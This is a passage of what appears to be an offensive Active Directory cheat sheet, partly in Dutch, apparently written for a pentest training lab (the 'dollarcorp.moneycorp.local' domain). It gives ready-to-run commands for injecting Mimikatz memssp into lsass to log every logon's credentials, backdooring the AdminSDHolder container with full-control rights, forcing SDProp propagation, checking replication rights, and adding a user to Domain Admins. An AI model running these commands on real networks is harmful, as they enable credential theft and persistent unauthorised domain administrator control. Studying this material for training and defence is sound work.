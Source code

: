 #### Use mimikatz to inject into lsass
all logons are logged to C:\Windows\System32\kiwissp.log
```
Invoke-Mimikatz -Command ‘”misc:memssp”’
```

## ACL
### AdminSDHolder
De AdminSDHolder container is een speciale AD container met default security permissies die gebruikt worden als template om beveiligde AD gebruikers en groepen (Domain Admins, Enterprise Admins etc.) te beveiligen en te voorkomen dat hier onbedoeld wijzingen aan worden uitgevoerd. Nadater er toegang is verkregen tot een DA is het mogelijk om deze container aan te passen voor persistence.

https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence

#### Check if student has replication rights
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

#### Add fullcontrol permissions for a user to the adminSDHolder
```
Add-ObjectAcl -TargetADSprefix ‘CN=AdminSDHolder,CN=System’ PrincipalSamAccountName <username> -Rights All -Verbose
```

#### Run SDProp on AD (Force the sync of AdminSDHolder)
```
Invoke-SDPropagator -showProgress -timeoutMinutes 1

#Before server 2008
Invoke-SDpropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check if user got generic all against domain admins group
```
Get-ObjectAcl -SamaccountName “Domain Admins” –ResolveGUIDS | ?{$_.identityReference -match ‘<username>’}
```

#### Add user to domain admin group
```
Add-DomainGroupMember -Identity ‘Domain Admins’ -Members <username> -Verbose
```

or

```
Net group "domain admins" sportless /add /domain
```
